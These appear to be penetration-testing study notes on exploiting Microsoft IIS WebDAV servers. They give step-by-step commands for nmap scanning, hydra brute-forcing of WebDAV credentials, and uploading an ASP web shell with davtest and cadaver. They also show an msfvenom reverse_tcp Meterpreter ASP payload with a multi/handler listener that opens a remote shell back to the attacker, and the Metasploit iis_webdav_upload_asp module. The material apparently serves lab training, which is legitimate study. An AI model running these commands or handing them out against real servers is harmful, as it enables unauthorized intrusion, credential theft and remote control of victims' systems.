 # Exploiting Microsoft IIS WebDAV
- Microsoft IIS - web server software developed by Microsoft
- Supported executable file extensions - .asp .aspx .config .php

#### WebDAV
- a set of extensions to the HTTP protocol - enables a web server to function as a file server
- uses a pair of username and password for authentication 
#### WebDAV Exploitation:
- Process
	- First, identifying whether WebDAV has been configured to run on the IIS web server
	- Second, perform a brute force to identify legitimate credentials
	- Third, after obtaining legitimate credentials, we can authenticate with WebDAV and upload a malicious .asp payload that will execute arbitrary commands 
- Tools 
	- davtest - scan, authenticate and exploit a WebDAV server
	- cadaver - supports file upload, download, on-screen display, in-place editing, ...
- `$ nmap -sV -sC 10.10.10.10`
- `$ nmap -sV -p 80 --script=http-enum 10.10.10.10`
- for authintication brute-force --> `$ hydra -L <path to username list> -P <path to pass list> 10.10.10.10 http-get /webdav/`
- davtest 
	- `$ davtest -url http://10.10.10.10/webdav`
	- `$ davtest -auth bob: password -url http://10.10.10.10/webdav`
- cadaver
	- `$ cadaver http://10.10.10.10/webdav`
	- once inside, run commands like ls
	- Kali has some preexisted web shells that can be accessed in `/usr/share/webshells/` - that can be used 
	- upload a webshell -- put `/usr/share/webshells/asp/webshell.asp`
	- run the webshell on your browser and execute your commands
- with Metasploit
	- First technique - Manual
		- msfvenome 
		- obtain meterpreter shell
		- generate asp payload
		- `$ msfvenom -p windows/meterpreter/reverse_tcp LHOST= your ip LPORT=port on your sys(1234) -f asp > meterpreter.asp`
		- connect using cadaver
		- upload the file you generated - put `/root/meterpreter.asp`
		- before opening the file on the browser, start a listener
		- `$ service postgresql start && msfconsole``
		- `$ use multi/handler/`
		- `$ set payload windows/meterpreter/reverse_tcp`
		- `$ set lhost <your ip>`
		- `$ set lport 1234`
		- `$ run`
		- when the file is executed on the target, we will gain access to our MSF console tab
	- Second technique - Automated - Recommended
		- use a Metasploit module
		- Search IIS upload
		- use `/exploit/windows/iis/iis_webdav_upload_asp`
		- set the options
		- run
